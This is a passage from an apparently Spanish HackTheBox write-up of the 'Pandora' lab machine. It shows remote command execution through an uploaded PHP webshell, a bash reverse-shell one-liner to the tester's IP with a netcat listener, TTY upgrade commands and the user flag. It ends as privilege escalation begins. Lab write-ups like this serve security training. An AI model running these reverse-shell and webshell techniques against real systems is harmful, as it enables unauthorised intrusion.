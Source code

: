 Ahora simplemente vamos a la dirección donde se encuentra nuestro archivo php y ya podemos ejecutar comandos.

![RCE](/assets/images/hackthebox/machines/pandora/rce.png)

Vamos a entablar conexión inversa hacia nuestra máquina para mayor comodidad operando con una shell:

```bash
bash -c "bash -i >& /dev/tcp/10.10.16.40/9999 0>&1"
```

Antes de enviar el comando con la webshell, nos ponemos en escucha con netcat:

```console
p3ntest1ng:~$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.16.40] from (UNKNOWN) [10.10.11.136] 42428
bash: cannot set terminal process group (859): Inappropriate ioctl for device
bash: no job control in this shell
matt@pandora:/var/www/pandora/pandora_console/images$ 
```

Es conveniente realizar un tratamiento a esta shell para tener una tty completa:

```console
matt@pandora:/var/www/pandora/pandora_console/images$ script /dev/null -c bash
<ra/pandora_console/images$ script /dev/null -c bash  
Script started, file is /dev/null
matt@pandora:/var/www/pandora/pandora_console/images$ ^Z
zsh: suspended  nc -nlvp 9999
p3ntest1ng:~$ stty raw -echo; fg
[1]  + continued  nc -nlvp 9999
                               reset xterm
matt@pandora:/var/www/pandora/pandora_console/images$ export TERM=xterm
matt@pandora:/var/www/pandora/pandora_console/images$ export SHELL=bash
matt@pandora:/var/www/pandora/pandora_console/images$ stty rows 36 columns 172
matt@pandora:/var/www/pandora/pandora_console/images$ cd /home
matt@pandora:/home$ cd matt
matt@pandora:/home/matt$ ls
user.txt
matt@pandora:/home/matt$ cat user.txt
060462bb4a8c091745340959b3def569
```

## Escalada de Privilegios

Antes de nada vamos a generar un par de claves SSH para poder acceder como el usuario **`matt`** sin proporcionar contraseña.
